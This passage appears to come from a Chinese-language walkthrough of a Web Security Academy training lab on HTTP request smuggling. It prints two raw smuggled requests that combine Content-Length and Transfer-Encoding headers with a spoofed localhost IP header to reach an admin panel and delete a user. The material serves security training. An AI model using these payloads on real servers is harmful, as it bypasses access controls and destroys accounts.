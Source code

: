 第二次发送请求数据报文回显结果如下，可以看到响应中"Search results for"后跟了重写的 HTTP 请求的开头

[![](assets/1704418275-2386a0721e157dde1e1ab72bbde1f4c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155911-fa99fde8-aa0d-1.png)  
随后记下重写请求中 X-\*-IP 报头的名称并使用它来访问管理面板：

```bash
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-GoOvNz-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

第一个报文显示结果如下：

[![](assets/1704418275-22d48190011cf8bbd6511e689c4ecd47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155948-10ce564a-aa0e-1.png)

第二个请求中显示直接进入 Admin 面板

[![](assets/1704418275-088bc1a08d512b88ad6994084bad1035.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160001-18e6df50-aa0e-1.png)  
并发现两个用户和对应的删除操作选项  
[![](assets/1704418275-7b4d0b0a223ca4243735d696517dcba7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160018-22c99b3e-aa0e-1.png)  
随后我们直接使用前面的响应作为参考，更改走私的请求 URL 以删除用户 carlos

```bash
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
